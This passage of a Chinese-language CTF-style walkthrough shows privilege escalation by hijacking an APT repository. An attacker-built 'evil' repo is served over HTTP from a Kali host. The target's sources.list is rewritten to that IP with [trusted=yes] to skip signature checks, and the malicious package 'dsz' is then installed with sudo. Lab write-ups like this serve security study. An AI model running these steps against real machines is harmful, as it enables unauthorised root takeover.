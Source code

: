 ```bash
Label: evil
Architecture: all
EOF

┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ cp Release InRelease
```

### 3.3.5 启动HTTP服务

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

## 3.4 执行包仓库劫持

### 3.4.1 修改sources.list

在目标机器上修改 APT 源：

```bash
fish@Chain:/var/www/html/d2VsY29tZTpqdW1v$ echo "deb [trusted=yes] http://192.168.205.128/dsz ./" > /etc/apt/sources.list
```

`[trusted=yes]` 参数忽略 GPG 签名验证。

### 3.4.2 更新包列表

```bash
fish@Chain:/var/www/html/d2VsY29tZTpqdW1v$ sudo apt update
Get:1 http://192.168.205.128/dsz ./ InRelease [75 B]
...
Get:4 http://192.168.205.128/dsz ./ Packages [265 B]
...
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
```

### 3.4.3 安装恶意包

```bash
fish@Chain:/var/www/html/d2VsY29tZTpqdW1v$ sudo apt install dsz
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
...
Setting up dsz (1.0) ...
```

## 3.5 获取Root权限
